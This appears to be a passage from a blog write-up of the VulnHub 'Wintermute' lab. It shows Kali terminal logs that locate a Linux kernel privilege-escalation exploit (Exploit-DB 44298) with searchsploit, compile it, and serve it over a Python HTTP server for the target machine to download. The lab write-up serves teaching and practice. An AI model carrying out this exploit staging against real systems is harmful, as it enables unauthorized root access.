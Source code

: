 ```
                                         | (/usr/share/exploitdb/)
----------------------------------------- ----------------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4 | exploits/linux/local/44298.c
----------------------------------------- ----------------------------------------
Shellcodes: No Result
kali@kali:~/vulnhub/wintermute/privesc$ mkdir neuromancer
kali@kali:~/vulnhub/wintermute/privesc$ cd neuromancer/
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ searchsploit -x exploits/linux/local/44298.c
  Exploit: Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/44298
     Path: /usr/share/exploitdb/exploits/linux/local/44298.c
File Type: C source, ASCII text, with CRLF line terminators



kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ cp /usr/share/exploitdb/exploits/linux/local/44298.c .
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ ls
44298.c
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ head 44298.c
/*
 * Ubuntu 16.04.4 kernel priv esc
 *
 * all credits to @bleidl
 * - vnik
 */

// Tested on:
// 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64
// if different kernel adjust CRED offset + check kernel stack size
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ gcc 44298.c 44298
gcc: error: 44298: No such file or directory
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ gcc 44298.c -o 44298
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
^CTraceback (most recent call last):
  File "/usr/lib/python2.7/runpy.py", line 174, in _run_module_as_main
    "__main__", fname, loader, pkg_name)
  File "/usr/lib/python2.7/runpy.py", line 72, in _run_code
    exec code in run_globals
  File "/usr/lib/python2.7/SimpleHTTPServer.py", line 235, in <module>
    test()
  File "/usr/lib/python2.7/SimpleHTTPServer.py", line 231, in test
    BaseHTTPServer.test(HandlerClass, ServerClass)
  File "/usr/lib/python2.7/BaseHTTPServer.py", line 610, in test
    httpd.serve_forever()
  File "/usr/lib/python2.7/SocketServer.py", line 231, in serve_forever
    poll_interval)
  File "/usr/lib/python2.7/SocketServer.py", line 150, in _eintr_retry
    return func(*args)
KeyboardInterrupt
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ python -m SimpleHTTPServer 4321
Serving HTTP on 0.0.0.0 port 4321 ...
192.168.251.7 - - [01/May/2020 08:31:01] "GET /44298 HTTP/1.1" 200 -



^CTraceback (most recent call last):
  File "/usr/lib/python2.7/runpy.py", line 174, in _run_module_as_main
    "__main__", fname, loader, pkg_name)
  File "/usr/lib/python2.7/runpy.py", line 72, in _run_code
    exec code in run_globals
  File "/usr/lib/python2.7/SimpleHTTPServer.py", line 235, in <module>
```

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator